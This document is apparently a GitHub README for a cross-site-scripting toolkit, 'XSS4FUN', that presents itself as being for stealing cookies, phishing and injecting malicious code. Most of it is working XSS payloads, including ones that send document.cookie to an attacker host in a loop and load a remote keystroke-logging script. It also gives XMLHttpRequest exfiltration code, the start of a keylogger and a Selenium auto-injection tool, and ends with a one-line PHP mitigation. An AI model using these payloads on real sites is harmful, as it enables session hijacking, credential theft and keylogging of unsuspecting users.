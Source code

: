 # XSS4FUN :cookie:
Cross-Site-Scripting just for fun.

## Cross-Site-Scripting Utils:
  - Steal cookies for session hijacking.
  - Modify Webpage to perform phishing.
  - Inject malicious code.
## Basic payloads:
  - <script>alert(1)</script>

## Useful payloads:
  - **<script src=https://attacker.com/keystroke.js > </script>**
    - To include malicious javascript code in page.
  - **\<img src=anything onerror=alert(1) >**
    - When the **<script>** is being filtered by the Web Application, you can use javascript events.
  - **<script>alert(localStorage.getItem('salary'))</script>**
    - To collect sensitive information stored in Browser Local Storage.
  - **<img src=error onerror=this.src='http://attacker.site/collector.php?data='+document.cookie >**
    - This payload start a loop, so the browser start sending multiple requests to the attacker server with the cookie.

## Javascript useful codes:
  - To perform HTTP GET request
  ```
  var xhttp = new XMLHttpRequest(); //Init xhttp object
  xhttp.open("GET", "https://attacker.site/strokes.php?data=data, true); //GET request
  xhttp.send(); //Send request
  ```
  - Collect pressed key
  ```
  document.addEventListener("keydown",function(e){
  pressed_key = e.key;
  ```
 
## Automated Detection
  ## xss4fun.py
  Using selenium to find input fields and inject payloads, if the injection is sucessful, a printscreen is made.

## Mitigations    
  ## PHP
   Using **htmlspecialchars** to convert special characters to HTML.
  ```
  $word = htmlspecialchars($_GET['word']);
  ```
  So this **<script>alert(1)</script>** becomes this **\&lt;script\&gt;alert(1)\&lt;/script&gt**

